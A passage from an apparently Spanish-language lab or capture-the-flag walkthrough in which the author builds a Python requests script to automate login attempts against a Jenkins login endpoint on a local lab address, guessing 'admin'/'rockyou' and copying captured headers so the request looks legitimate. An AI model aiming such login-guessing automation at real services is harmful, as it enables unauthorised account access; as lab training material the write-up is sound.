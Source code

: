 
### Paso 5: Creación del script en Python con Visual Studio Code

Con los detalles de la solicitud en mano, decidí automatizar el proceso de login usando Python. Abrí Visual Studio Code desde el menú de aplicaciones de Kali Linux y creé un nuevo archivo llamado `inicio_desde_python.py`. A continuación, escribí el código paso a paso.

#### 1. Importar la librería `requests`
Para enviar solicitudes HTTP desde Python, necesitaba la librería `requests`. La importé con esta línea:

```python
import requests
```

#### 2. Definir la URL del endpoint
Basado en la solicitud capturada, definí la URL del endpoint de login:

```python
url = 'http://172.17.0.2:8080/j_spring_security_check'
```

#### 3. Crear los datos del formulario
Decidí probar con el usuario "admin" y la contraseña "rockyou", siguiendo mi corazonada. También incluí los parámetros adicionales que vi en la solicitud:

```python
acceso = {
    'j_username': 'admin',
    'j_password': 'rockyou',
    'from': '/',
    'Submit': 'Sign in'
}
```

#### 4. Definir las cabeceras HTTP
Para que mi solicitud pareciera legítima, copié las cabeceras de la solicitud capturada en Burp Suite:

```python
cabeceras = {
    'Host': '172.17.0.2:8080',
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://172.17.0.2:8080',
    'Connection': 'keep-alive',
    'Referer': 'http://172.17.0.2:8080/login?from=%2F',
    'Cookie': 'JSESSIONID.b04dbd66=node01f6mvw75o6x2n159uzu5n0hqng1.node0',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1'
}
```
